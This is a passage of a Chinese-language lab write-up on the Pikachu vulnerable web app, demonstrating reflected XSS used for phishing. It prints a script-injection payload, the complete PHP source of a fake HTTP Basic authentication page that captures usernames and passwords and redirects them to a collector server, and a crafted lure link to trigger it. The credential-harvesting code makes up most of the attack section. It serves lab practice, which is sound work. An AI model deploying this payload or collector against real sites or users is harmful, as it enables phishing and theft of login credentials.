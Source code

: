 ![](WEB漏洞靶场pikachu-xss\QQ截图20190321093958.png)

接着诱导用户点击我们插入了Payload的链接，页面就会重定向到指定的钓鱼页面。

Basic验证钓鱼：

让用户访问我们插入了Payload的链接后，链接中的JS会被执行，执行结果就是请求fish.php，该文件会返回一个basic验证框。输入用户名密码后，会被发到我们的服务器。

Payload：`<script src=http://localhost/fish.php></script>`

fish.php内容：

```php
<?php
error_reporting(0);
// var_dump($_SERVER);
if ((!isset($_SERVER['PHP_AUTH_USER'])) || (!isset($_SERVER['PHP_AUTH_PW']))) {
//发送认证框，并给出迷惑性的info
    header('Content-type:text/html;charset=utf-8');
    header("WWW-Authenticate: Basic realm='认证'");
    header('HTTP/1.0 401 Unauthorized');
    echo 'Authorization Required.';
    exit;
} else if ((isset($_SERVER['PHP_AUTH_USER'])) && (isset($_SERVER['PHP_AUTH_PW']))){
//将结果发送给搜集信息的后台,请将这里的IP地址修改为我们服务器的IP
    header("Location: http://192.168.100.126/pkxss/xfish/xfish.php?username={$_SERVER[PHP_AUTH_USER]}
    &password={$_SERVER[PHP_AUTH_PW]}");
}

?>
```

诱导用户点击链接：`192.168.100.126/pikachu/vul/xss/xss_reflected_get.php?message=<script src=http://localhost/fish.php></script>&submit=submit`，弹出验证框：
